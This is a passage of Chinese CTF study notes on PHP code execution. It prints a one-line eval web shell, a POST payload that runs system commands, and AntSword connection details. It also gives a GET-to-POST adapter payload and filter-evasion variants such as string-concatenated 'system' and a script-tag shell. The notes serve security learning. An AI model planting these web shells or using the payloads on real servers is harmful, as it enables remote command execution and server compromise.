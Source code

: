 函数名   （ 参数 ）；

error_reporting   (  0  ) ;

### 2.类方法调用

类的特征：类实例，方法名，方法参数，返回值

？？？动态函数调用
？？？静态函数调用

### 3.语言结构调用

```
echo " ctfshow " ;
```

## 0x4 PHP代码执行后门

```
<?php

eval($_POST[1]);

?>
```

最简单的PHP一句话后门，也叫PHP小马，如果我们想在服务器上(Windows系统)弹出计算器，发送POST请求即可：

```
1=system("calc");
```

——>蚁剑

url地址：xxxxx
连接密码：1

若木马接收代码为`eval($_GET[1]);`
我们需要手动写一个转接头，**加在GET型请求的url后面**：
（GET转POST转接头）

```
?1=eval(\$_POST[1]);
```

## 0x5 代码执行的类型

<u>函数名+函数类型可控=可以执行任意代码</u>

1.危险函数型

![image-20220905205127371](https://blog-1308152021.cos.ap-beijing.myqcloud.com/image/202209052051444.png)

```
("sys"."tem")=system
<script language="php">eval($_POST[1])</script> 
```
